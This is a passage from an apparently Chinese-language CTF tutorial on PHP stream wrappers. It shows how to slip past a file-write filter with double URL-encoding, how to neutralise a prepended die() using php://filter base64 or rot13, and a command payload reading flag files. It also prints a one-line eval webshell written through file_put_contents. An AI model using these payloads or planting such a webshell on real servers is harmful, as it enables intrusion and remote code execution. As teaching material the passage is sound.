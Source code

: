   一个写文件的题，但是有过滤，不允许包含 `php` , `data` , `:` 和 `.` 但是在写入操作的时候，会把 `file` 参数进行 `urldecode`，所以我们可以两次 `urldecode` 来绕过过滤，然后只需要考虑如何绕过 `<?php die('大佬别秀了');?>` 中的 `die()` 即可

  我们可以尝试使用 Base64 绕过 `die()`，Base64 的编码范围是 `0-9` , `a-z` , `A-Z` , `+` 和 `/` ，其他字符会被忽略，去掉不支持的字符，只剩下了 `phpdie` 了，因为 Base64 解码是按照 4位 一组进行解码的，所以我们需要在最终编码出来的字符串中最前面添加两个字母，以达到 Base64 解码的规则

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/convert.base64-decode/resource=1.php
  // 需要base64编码，编码后最前面添加两个字母如：aa
  POST: content=<?php system('cat f*');
  ```

  另一种方法是使用 Rot13 编码

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/string.rot13/resource=1.php
  // 需要Rot13编码
  POST: content=<?php system('cat f*');
  ```

  Rot13 解码后写入的文件内容变为了

  ```php
  <?cuc qvr('大佬别秀了');?><?php system('cat f*');
  ```

  这样就可以绕过 `die()` 了

  **input**

  ```php
  # 注意使用 php://input 的时候必须开启 allow_url_include
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>
  ```

  ![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101743245.jpeg)

  当我们有写入操作的时候，可以直接写入一句话木马

  ```php
  <?php file_put_contents('muma.php', '<?php @eval($_POST[cmd]);');
  ```


### data://

- **条件**：

  - allow_url_fopen：on
  - allow_url_include： on

- **作用**：自 `PHP>=5.2.0` 起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

- **用法**：
